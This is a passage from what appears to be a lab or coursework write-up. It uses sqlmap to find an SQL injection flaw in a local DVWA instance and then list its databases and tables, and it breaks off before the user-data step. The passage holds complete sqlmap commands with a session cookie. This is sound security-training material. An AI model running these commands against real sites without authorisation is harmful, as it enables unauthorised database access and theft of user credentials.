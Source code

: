 ![image](https://github.com/user-attachments/assets/7990b9c9-d27f-4129-be3f-03c756477149)


Enter any value for this to retun a url : `http://localhost/vulnerabilities/sqli/?id=1`

5. Get information about all available databases


![image](https://github.com/user-attachments/assets/50a4a548-b017-4cf1-9a9c-c3cde8af9d2d)

Get cookie value of website: PHPSESSID=8i0tfhbnhtb8oe03hmukldr8n3

- -u: This option specifies the target URL that sqlmap will test for SQL injection vulnerabilities.

- --cookie: This option allows you to provide specific cookies that should be sent along with the request. 

- --data: This option is used to send data in a POST request.
- --dbs:This option tells sqlmap to enumerate the databases on the server if an SQL injection vulnerability is detected. It attempts to retrieve a list of all databases present in the database management system.

```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=8i0tfhbnhtb8oe03hmukldr8n3; security=medium " --data="id=1&Submit=Submit" --dbs
```

![image](https://github.com/user-attachments/assets/0a9fd479-4d89-43ba-9f3a-56db673d3400)

Return 2 available databases named : dvwa and information_schema


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

## 1. Choice Database is dvwa and Use sqlmap to get table 

-D: This option specifies the database name that sqlmap should target.
--tables:
This option tells sqlmap to enumerate the tables within the specified database (in this case, dvwa). If the dvwa database is found and accessible, sqlmap will retrieve and display a list of its tables.


```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=8i0tfhbnhtb8oe03hmukldr8n3; security=medium " --data="id=1&Submit=Submit" --batch -D dvwa --tables
```



![image](https://github.com/user-attachments/assets/13a09125-e859-4705-8e9c-50f30622f3be)

Return 2 tables named : guestbook and users

## 2. Choice Database is Users and  use sqlmap to get  users information
